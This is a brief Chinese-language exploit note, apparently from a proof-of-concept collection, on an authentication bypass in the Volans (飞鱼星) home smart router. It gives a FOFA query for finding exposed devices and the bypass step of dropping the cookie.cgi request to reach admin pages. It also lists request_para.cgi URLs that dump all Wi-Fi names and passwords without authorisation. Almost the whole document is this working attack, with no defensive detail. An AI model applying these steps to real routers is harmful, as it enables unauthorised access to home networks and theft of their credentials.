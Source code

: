 # 飞鱼星 家用智能路由 cookie.cgi 权限绕过

飞鱼星家用智能路由存在权限绕过，通过Drop特定的请求包访问未授权的管理员页面。

fofa:title="飞鱼星家用智能路由"


```
http://xxx.xxx.xxx.xxx/index.html
访问 index.html 时会请求 cookie.cgi
页面抓包 Drop掉 cookie.cgi
```


```
/request_para.cgi?parameter=wifi_info      #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

ref:

* https://mp.weixin.qq.com/s/ARCZIR2C40KSu8SjLMYHSw
* https://forum.ywhack.com/thread-115486-1-5.html